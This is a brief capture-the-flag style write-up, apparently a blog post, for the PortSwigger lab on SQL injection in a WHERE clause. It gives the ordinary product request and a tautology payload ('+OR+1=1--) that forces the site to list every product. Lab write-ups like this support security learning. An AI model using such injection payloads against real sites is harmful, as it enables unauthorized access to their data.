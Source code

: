 ```yaml
---
title: PSA - SQLi 1 - SQLi in WHERE clause
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Apprentice`

## 🎯 Goal

Show all the products no matter the category.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

With payload:

````text
<website>/products?category='+OR+1=1--
````
